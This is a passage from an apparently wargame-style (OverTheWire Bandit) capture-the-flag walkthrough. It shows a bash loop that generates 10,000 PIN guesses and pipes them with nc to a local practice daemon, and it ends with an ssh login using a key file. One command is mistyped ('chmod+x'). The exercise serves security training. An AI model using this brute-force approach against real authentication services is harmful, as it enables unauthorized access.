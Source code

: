 ```
do
    echo "<bandit_password> $i" >> passwords.txt
done
```
If we make this script executable with `chmod +x` then we can run it and generate our brute-force list of inputs for the daemon. \
\
The last thing to do is simply pipe the input to the daemon and wait until we send the right pin code so that we get the password for bandit25. 

### Solution
Start by creating a temporary directory and a file for our brute-force input to the daemon. 
```
mktemp -d
cd /tmp/tmp.directoryname
touch passwords.txt
```
Next, create the shell script. 
```
touch script.sh
chmod+x script.sh
```
Add the for loop to the script with a utility like `nano` and save it. 
```
#!/bin/bash

for i in {0..10000}
do
    echo "<bandit_password> $i" >> passwords.txt
done
```
And finally, connect to the daemon and send it the list of inputs. 
```
cat passwords.txt | nc localhost 30002
```

## Level 25
ssh -i ./bandit26.sshkey bandit26@localhost -p 2220 